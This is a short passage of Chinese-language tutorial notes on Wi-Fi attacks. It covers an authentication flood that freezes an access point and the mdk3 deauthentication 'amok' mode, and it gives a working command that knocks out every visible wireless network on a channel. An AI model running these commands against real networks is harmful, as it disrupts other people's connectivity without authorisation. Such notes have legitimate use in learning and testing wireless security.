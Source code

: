 ![](resources/2023-07-13-01-12-23.png)

上面这条命令会循环发送大量验证信息给AP，过不了几分钟，AP就会卡死，如果路由器有防DOS的功能的话，这个不好用

#### Deauthentication/Disassociation Amok（强制解除验证解除连接攻击）

[对WiFi发动取消认证攻击（Deauthentication)](https://www.bilibili.com/read/cv18290136)
[WIFI接入之Authentication（认证）和Association（关联）流程梳理](https://blog.csdn.net/Atlas12345/article/details/104588090)

软件会向周围所有可见AP发起循环攻击，可以造成一定范围内的无线网络瘫痪（当然有白名单，黑名单模式）

```shell
# 参数：
# -w <filename>  白名单mac地址列表文件
# -b <filename>  黑名单mac地址列表文件
# -s <pps>  速率，这个模式下默认无限制
# -c [chan,chan,chan,...]  信道，可以多填，如 2,4,5,1
mdk3 wlan0mon d -c 1
```

![](resources/2023-07-13-01-15-11.png)